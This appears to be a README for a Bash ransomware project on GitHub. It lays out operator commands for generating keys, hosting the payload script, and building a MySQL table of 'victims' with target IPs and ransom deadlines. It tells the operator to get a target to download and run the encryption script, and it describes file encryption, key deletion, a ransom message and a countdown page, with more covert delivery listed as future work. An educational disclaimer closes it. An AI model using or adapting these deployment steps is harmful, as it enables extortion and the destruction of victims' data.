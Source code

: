 # Bash Ransomware

## Requirements
 - openssl
 - jquery
 - mysql
 - php 5 (php5-mysql)

## What to do on the server-side
 - $ openssl genrsa -out priv.pem 4096
 - $ openssl rsa -pubout -in priv.pem -out pub.pem
 - $ cat /dev/urandom | tr -cd 'A-Za-z0-9' | fold -w 4096 | head -n 1 > key.bin
 - $ mkdir -p /var/www/html/downloads
 - $ cp pub.pem /var/www/html/downloads/
 - $ cp key.bin /var/www/html/downloads/
 - > Modify crypto.sh and replace the IPwith your web server's IP/URL
 - $ cp crypto.sh /var/www/html/downloads/
 - > Copy all of the ransomware files to /var/www/html
 - > You should have all of the php files in the root of your web dir (/var/www/html/)
 - > You should also have /var/www/html/images/ and /var/www/html/scripts/
 - $ cd /var/www/html/downloads
 - $ python -m SimplHTTPServer 8080 &
 - $ cd ../
 - > Modify admin.php, admin_query.php, decrypt.php, query.php, and target.php with your database information
 - > Next, create the database for storing the data
 - $ mysql -u [user] -p
 - $ create database victims;
 - $ use victims;
 - $ create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null);
 - $ exit

## What to do on the client-side
 - Get target to download the file and execute or if you have have access to the system, download it directly
 - $ chmod 755 crypto.sh
 - $ ./crypto.sh &

## What it does
 - Downloads the public key and key file to the target
 - Move DB settings into a common.php file and refer to that file ineach of the scripts (One place to edit instead of numerous places)
 - Loops through the system and encrypts the various files
 - Deletes the key file and leaves the public key
 - Prints the ransom message
 - Links to web pages where the user can see an active countdown of the time that is left before key deletion

## TODO
 - Configure script to download over https, more covert
 - Add in error handling for non-existing files
 - Imporve functionality and capabilities
 - Unique key pair per victim (In work)
 - Add Screenshots
 - Make ransom message on web page prettier 

## Acknowledgements/Contributors
  - Special thanks to zmallen and his lollocker (https://github.com/zmallen/lollocker)
  - lollocker served as the inspiration for this project
  - CryptoWall message text used came from https://www.pcrisk.com/removal-guides/7844-cryptowall-virus

## WARNING 
  - Use this tool at your own risk. Author is not responsible or liable if you damage your own system or others. Follow all local, state, federal, and international laws as it pertains to your geographic location. Do NOT use this tool maliciously as it is being released for educational purposes for use in cyber exercises or demonstrations of adversarial tools.
